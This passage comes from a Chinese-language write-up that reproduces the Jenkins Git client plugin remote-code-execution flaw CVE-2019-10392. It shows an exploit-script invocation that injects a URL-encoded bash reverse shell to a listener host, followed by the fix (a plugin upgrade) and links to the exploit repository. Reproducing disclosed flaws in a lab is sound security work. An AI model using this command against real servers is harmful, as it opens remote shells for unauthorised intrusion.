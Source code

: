 ![图片](https://ae01.alicdn.com/kf/Ud138282a94c444a38775ed43c655fed9G.jpg)

(6). 利用该脚本反弹shell：
```
py -3 Jenkins_Git_RCE_CVE-2019-10392.py -u http://172.26.1.171:8080  -U test -P 123456 -i ce -c "bash -i >%26 /dev/tcp/172.26.1.156/6666 0>%261"
```
利用：
![图片](https://ae01.alicdn.com/kf/Uf4d97d3c44ea4bdc9529792f11e5fc93y.jpg)

这里注意下使用bash反弹shell的时候需要将命令中的&符号进行url编码才可正常执行。

感谢[ftk-sostupid](https://github.com/ftk-sostupid)大佬一直耐心解答我对于脚本使用的问题！！！！！！

# 0x05: 漏洞修复：
升级Git client插件至2.8.4以上版本

# 0x06: 参考链接：
[https://www.cnblogs.com/paperpen/p/11626231.html](https://www.cnblogs.com/paperpen/p/11626231.html)

[https://mp.weixin.qq.com/s/Axx7KYm9irAQv7ZIO8autg](https://mp.weixin.qq.com/s/Axx7KYm9irAQv7ZIO8autg)

[https://github.com/ftk-sostupid/CVE-2019-10392_EXP](https://github.com/ftk-sostupid/CVE-2019-10392_EXP)

